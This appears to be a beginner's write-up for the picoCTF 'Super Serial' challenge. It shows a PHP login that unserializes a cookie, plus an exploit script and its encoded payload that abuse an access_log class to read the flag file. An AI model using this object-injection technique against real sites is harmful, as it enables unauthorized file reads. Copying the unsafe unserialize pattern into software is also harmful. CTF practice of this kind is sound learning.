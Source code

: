 # [picoCTF](https://play.picoctf.org/practice?category=1)

A noob trying to solve noob ctfs

## Super Serial

Try to recover the flag stored on this website http://mercury.picoctf.net:14804/

Looking at  `robots.txt` we see `admin.phps`, we try to find it but is 404, we can try `index.php` and we see other files, most significat `cookies.phps` and `authentification.phps`

We see that `index.phps` includes `cookies.phps` and serializes some kind of object that the login is based on
```php
$perm_res = new permissions($username, $password);
if ($perm_res->is_guest() || $perm_res->is_admin()) {
    setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
    header("Location: authentication.php");
    die();
} else {
    $msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
}
```

Then, in `cookies.phps` the cookie is deserialized 
```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

Searching this on [Google](https://www.google.com/search?q=serialize+php+vuln), we quickly see it's very bad, we cand basically insert any kind of php object we want in there.

After some messing around, I've realized that `serialize()` makes objects into strings, encoding only the class name and the values, not methods. So that means that our payload must be an already defined object class in the code.

We then see the `access_log` class

```php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}
```

It uses a file path as a value in constructor, and the `__toString()` call reads that file

We can write a simple php script like this

```php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

$obj = new access_log('../flag');
$enc = urlencode(base64_encode(serialize($obj)));
echo $enc;//TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
echo "\n";
```

Now, going on `/authentification.php` the code will reach the code in `cookie.php` where the `__toString()` will be called, because the fact that we don't have a `is_admin()` method defined on `access_log` will raise an error that just prints out object on the screen.
